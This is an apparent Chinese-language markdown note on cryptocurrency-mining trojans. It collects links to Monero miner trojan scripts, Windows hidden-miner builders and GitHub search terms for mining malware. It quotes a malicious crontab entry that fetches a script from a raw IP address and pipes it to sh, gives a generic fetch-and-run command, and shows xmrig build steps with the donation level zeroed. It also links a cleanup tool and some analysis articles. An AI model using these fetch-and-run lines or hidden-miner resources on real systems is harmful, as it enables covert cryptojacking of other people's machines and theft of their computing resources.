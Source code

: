```
    },
    "user-agent": null,
    "verbose": 0,
    "watch": true
}

```

可以采用CPU,GPU或者CUDA进行挖矿.

## 挖矿木马

1. 门罗币木马脚本： https://yq.aliyun.com/articles/637475
2. 挖矿木马脚本： https://pastebin.com/X2EK5LXb
3. 挖矿木马手机脚本: https://github.com/MinervaLabsResearch/BlogPosts/blob/master/MinerKiller/MinerKiller.sh
4. 简易挖矿木马脚本： https://www.jianshu.com/p/30ca626c9e3a
5. xrmig一键脚本： https://github.com/seanwhe/xmrig-bash-scripts , https://github.com/thequietman44/xmrig-scripts/


发现木马反复执行一个定时任务`crontab -e`：
```
# -q 静默模式， -O - 代表输出到对应的文件 /dev/null中，这个文件是一个空包
* * * * * wget -q -O - http://195.3.146.118/sc.sh | sh > /dev/null 2>&1
```
wget下载脚本，然后运行脚本自动删除脚本: `wget http://sitehere.com/install.sh -O - | sh`


### 木马脚本

Windows平台木马： https://github.com/NYAN-x-CAT/Lime-Miner

Windows强力病毒： https://github.com/hawksh/Hidden-miner-builder

Windows挖矿提高脚本: https://github.com/DeadManWalkingTO/Windows10MiningTweaksDmW


### Github搜索病毒

关键字: xmr mining shell, mining malware,Xmrig Miner Malware



### 病毒脚本

1. 脚本参考： https://github.com/MoneroOcean/xmrig_setup
2. 脚本搜索目录： https://github.com/search?l=Shell&p=2&q=.%2Fxmrig&type=Code
3. 病毒清理脚本： https://github.com/MoreSecLab/DDG_MalWare_Clean_Tool/blob/master/clear.sh
4. xbash病毒脚本: https://www.freebuf.com/articles/terminal/185106.html, https://github.com/h3ct0rjs/XBash-malware-files

```shell
# 以下是安装脚本，可以先编译好不用执行如下脚本
# 下载
sudo apt install -y software-properties-common git build-essential cmake libuv1-dev libssl-dev libmicrohttpd-dev libhwloc-dev gcc g++ 
git clone https://github.com/xmrig/xmrig.git
# 设置抽水比率
cd xmrig
sed -i 's/kDefaultDonateLevel =.*/kDefaultDonateLevel = 0;/' src/donate.h
sed -i 's/kMinimumDonateLevel =.*/kMinimumDonateLevel = 0;/' src/donate.h
# 创建编译目录
mkdir build && cd build
cmake ..
make -j$(nproc)


````